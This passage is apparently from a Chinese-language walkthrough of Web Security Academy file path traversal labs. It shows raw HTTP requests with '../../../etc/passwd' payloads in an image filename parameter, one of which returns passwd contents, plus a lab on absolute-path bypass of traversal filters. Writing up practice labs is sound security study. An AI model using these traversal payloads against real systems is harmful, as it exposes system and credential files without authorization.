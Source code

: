 
往上跳三级目录即可获取文件内容。

```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: 0a3500ac03db485180d776e7005e0046.web-security-academy.net
Cookie: session=sN3NMychB0F02a9vgCv04BmOdvELunj9
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.31
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a3500ac03db485180d776e7005e0046.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
......
```

#### Lab: File path traversal, traversal sequences blocked with absolute path bypass

题意：在学习资料中提示了，这个 Lab 有遍历防护，可以尝试用绝对路径绕过。

尝试遍历会提示没有文件，很可能是把我们输入的 ../ 给剔除再去查过滤后的文件名，提示不存在。

```http
GET /image?filename=../../../../etc/passwd HTTP/2
Host: 0a3d00a704959656870b472000a700e8.web-security-academy.net
Cookie: session=LEYsrWlzEuXb1g6J2N5zwBGhSmBwwok4
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a3d00a704959656870b472000a700e8.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"
```

